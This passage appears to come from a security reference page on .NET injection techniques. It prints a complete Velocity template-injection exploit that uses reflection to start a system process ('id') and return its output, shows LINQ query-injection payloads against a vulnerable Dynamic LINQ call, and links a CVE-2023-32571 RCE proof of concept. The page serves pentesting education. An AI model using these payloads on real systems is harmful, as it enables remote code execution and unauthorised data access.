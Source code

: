 Finally, below is another exploit for the same framework that uses some different methods create a [`ProcessStartInfo`](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics.processstartinfo?view=net-9.0) and also return its output in the template content:

<pre class="language-velocity" data-title="Exploit 2"><code class="lang-velocity">#set($a = "")
#set($activator_type = $a.GetType().Assembly.GetType("System.Activator"))
#set($create_instance = $activator_type.GetMethods().Get(8))
#set($args = ["System.Diagnostics.Process, Version=8.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a", "System.Diagnostics.Process"])
#set($wrapped_process = $create_instance.Invoke(null, $args.ToArray()))
#set($process = $wrapped_process.Unwrap())

#set($args = ["System.Diagnostics.Process, Version=8.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a", "System.Diagnostics.ProcessStartInfo"])
#set($wrapped_process_start_info = $create_instance.Invoke(null, $args.ToArray()))
#set($process_start_info = $wrapped_process_start_info.Unwrap())

<strong>#set($process_start_info.FileName = "id")
</strong>#set($process_start_info.RedirectStandardOutput = true)

#set($flag = $process.Start($process_start_info))
<strong>$!flag.StandardOutput.ReadToEnd()
</strong></code></pre>

## LINQ Injection

[Language Integrated Query (LINQ)](https://learn.microsoft.com/en-us/dotnet/csharp/linq/) is a Microsoft library for C# used to query objects similar to SQL syntax. It does, however, support C# syntax with function calls embedded inside the syntax, such as:

```csharp
using System.Linq.Dynamic.Core;

var query = products.AsQueryable();
var response = query.Where($"Name.Contains(\"{showProducts.name}\")");
```

The above inserts user input from `showProducts.name` into the `Where()` call, which without sanitization allows an attacker to escape the `"` (double quote) and rewrite the query. For example:

* `X") || 1==1 || "" == ("X`: Shows all products
* `X") || 1==2 || "" == ("X`: Empty array

### Version < 1.3.0 RCE

The following Github Repository and accompanying article explain how to exploit such an injection for consistent Remote Code Execution.

{% embed url="https://github.com/Tris0n/CVE-2023-32571-POC" %}
Proof of Concept of the RCE
{% endembed %}

{% embed url="https://www.nccgroup.com/us/research-blog/dynamic-linq-injection-remote-code-execution-vulnerability-cve-2023-32571/" %}
Explanation and technical details of how it was found
{% endembed %}
